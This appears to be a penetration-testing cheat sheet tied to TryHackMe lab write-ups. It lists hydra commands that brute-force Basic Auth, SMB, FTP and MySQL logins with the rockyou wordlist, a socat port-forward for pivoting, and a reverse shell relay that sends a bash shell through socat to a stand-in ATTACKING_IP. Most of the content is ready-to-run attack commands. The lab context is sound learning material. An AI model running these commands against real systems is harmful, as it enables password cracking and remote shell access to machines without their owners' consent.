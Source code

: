 ## Bruteforcing

### Basic Auth

`hydra -L user.txt -P rockyou.txt <machine-ip> http-head /` 

`hydra -L user.txt -P rockyou.txt <machine-ip> http-get /`

### SMB

`hydra -L user.txt -P rockyou.txt -m <domain> <ip> smb` **_or metasploit_**

### FTP

`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.120.161 ftp`

### mysql

`hydra -l 'root' -P ~/tools/SecLists/Passwords/rockyou.txt 192.168.134.118 mysql` 

## TCPdump

### Monitor your injections with tcpdump

Ping yourself and run `tcpdump -i <interface> icmp`  

## Pivoting/PortForwading/Tunneling

### Used msfconsole muti/handler

[Therennox YOTF writeup](https://therennox.github.io/thm/yearOfTheFox)   

### Socat

Opening 8888 in the victim to connect to victim 22 **_in this scenario only localhosts is allowed to victim 22_**  
`/tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22`  
read more here [Muirlandoracle YOTF writeup](https://tryhackme.com/resources/blog/year-of-the-fox-official-write-up) or [H0j3n's](https://h0j3n.medium.com/tryhackme-year-of-the-fox-631c7752fab2)

#### Reverse Shell Relay

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
   - tcp-l:8000 = used to create the first half of the connection -- ipv4 listener on tcp port 8000 of the victim
   - tcp:attacking_ip:443 = connects back to our local IP on port 443
   - & =  backgrounds the listener

This will connect back to our machine so we need to setup a netcat listener

`./nc-hyst 127.0.0.1 8000 -e /bin/bash`
